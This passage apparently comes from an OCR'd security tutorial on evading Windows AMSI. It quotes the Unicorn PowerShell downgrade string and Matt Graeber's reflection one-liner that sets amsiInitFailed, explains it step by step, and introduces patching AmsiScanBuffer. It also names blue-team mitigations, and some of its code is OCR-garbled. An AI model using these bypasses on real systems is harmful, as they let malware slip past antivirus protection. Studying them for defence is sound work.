 This attack can actively be seen exploited in tools such as **Unicorn**.

> **full attack = ‘’’powershell /w 1 /C “sv (0) -;sv (1) ec;sv (2) ((gv (3}).value.toString()+(gv{4}).value.toString()); powershell (gv (5)).value.toString() (\\\\’.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha\_av + “)”**

Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.

The two easiest mitigations are removing the PowerShell 2.0 engine from the device and denying access to PowerShell 2.0 via application blocklisting.

* * *

#### **PowerShell Reflection**

Reflection allows a user or administrator to access and interact with .NET assemblies. From the **Microsoft** docs, “Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications.” .NET assemblies may seem foreign; however, we can make them more familiar by knowing they take shape in familiar formats such as **exe** (executable) and **dll** (dynamic-link library).

PowerShell reflection can be abused to modify and identify information from valuable DLLs.

The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.Amsiutils**

**Matt Graeber** published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

> **\[Ref] Assembly.GetType(‘System.Management. Automation.AmsiUtils’).GetField(‘amsiInitFailed’, ‘Non Public, Static’).SetValue($null, Strue)**

To explain the code functionality, we will break it down into smaller sections.

First, the snippet will call the reflection function and specify it wants to use an assembly from **\[Ref.Assembly]** it will then obtain the type of the AMSI utility using **GetType**

> **\[Ref] Assembly.GetType(‘System.Management. Automation.AmsiUtils’)**

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using **GetField**

> **GetField(‘amsiInitFailed’, ‘NonPublic, Static’)**

The assembly and field information will then be forwarded to the next parameter to set the value from **$false** to **$true** using **Setvalue**

> **.SetValue($null, $true)**

Once the **amsiInitFailed** field is set to **$true**, AMSI will respond with the response code: **AMSI\_RESULT\_NOT\_DETECTED = 1**

* * *

#### **Patching AMSI**

AMSI is primarily instrumented and loaded from **amsi.dll** this can be confirmed from the diagram we observed earlier. This **dll** can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.
